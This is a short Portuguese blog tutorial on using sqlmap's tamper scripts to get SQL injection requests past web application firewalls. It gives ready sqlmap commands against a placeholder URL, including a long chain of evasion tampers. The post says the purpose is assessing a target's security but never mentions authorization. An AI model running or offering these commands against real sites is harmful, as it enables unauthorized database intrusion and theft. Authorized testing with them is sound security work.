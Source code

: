 ```yaml
---
title: Burlar WAF com SQLMAP
date: 2023-10-16 14:30:00 +0800
categories: [r0daemon, Hacking]
tags: [Sqlmap, Hacking] # TAG names should always be lowercase
image: /assets/img/posts/sqlmap.jpg
---
```


<p align="justify"> Com o avanço dos Firewalls de Aplicação da Web (Web Application Firewalls - WAFs), a tarefa de utilizar a ferramenta sqlmap tornou-se progressivamente mais desafiadora, uma vez que as requisições são rotineiramente identificadas como suspeitas e bloqueadas automaticamente. Diante dessa situação, os desenvolvedores da ferramenta têm se empenhado em criar pequenos scripts para contornar esses WAFs e permitir a execução de consultas SQL injection.</p>

<p align="justify">Vamos seguir alguns passos para utilizar o sqlmap de forma mais eficaz:</p>

# 1. Baixando o sqlmap:

```
git clone https://github.com/sqlmapproject/sqlmap
```

# 2. Execute a ferramenta para avaliar a segurança do alvo específico:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=base64encode
```

<p align="justify"> Dessa forma, o script converterá a consulta em uma codificação base64, ajudando a superar alguns tipos de Firewalls.</p>

# 3. Quando se deparar com um Firewall mais sofisticado, será necessário empregar uma combinação de métodos de evasão:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

<p align="justify"> Essa combinação de técnicas de evasão será empregada simultaneamente para ocultar as requisições e passar pelos controles do Firewall, permitindo que o "sqlmap" continue a funcionar de maneira eficaz.</p> 
